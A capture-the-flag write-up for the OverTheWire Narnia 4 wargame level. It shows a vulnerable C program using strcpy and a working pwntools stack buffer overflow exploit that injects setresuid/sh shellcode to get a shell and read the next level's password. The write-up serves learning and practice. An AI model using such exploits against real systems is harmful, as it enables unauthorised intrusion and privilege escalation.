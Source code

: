 ```yaml
---
title: Narnia4

published: 2025-06-21

description: Buffer overflow shellcode

tags: [pwn, buffer overflow]

category: overthewire-narnia
---
```


# Narnia 4

## C File

```c
extern char **environ;

int main(int argc,char **argv){
    int i;
    char buffer[256];

    for(i = 0; environ[i] != NULL; i++)
        memset(environ[i], '\0', strlen(environ[i]));

    if(argc>1)
        strcpy(buffer,argv[1]);

    return 0;
}
```


## Approach

This is basically exactly the same as narnia2

If we make `argv[1]` large enough it will overflow and rewrite the return address

We make the return address back to the buffer filled with shellcode

## Solution

```python
from pwn import *
offset = 264
payload = asm(shellcraft.setresuid() + shellcraft.sh())
payload = payload + b'A' * (264-len(payload))
payload = payload + p32(0xffffd124)
p = process(["/narnia/narnia4", payload])
#p = gdb.debug(["/narnia/narnia4", payload], gdbscript="source /opt/gef/gdbinit.py")
p.interactive()
```

Again we find the offset using `cyclic` and the address to the buffer using `gdb`

then we just put the shellcode, fill up the buffer, and add the address of the buffer

We run it and get a shell as narnia5 and open the password file

## Conclusion

Again be careful with `strcpy` as its an easy way to cause a buffer overflow

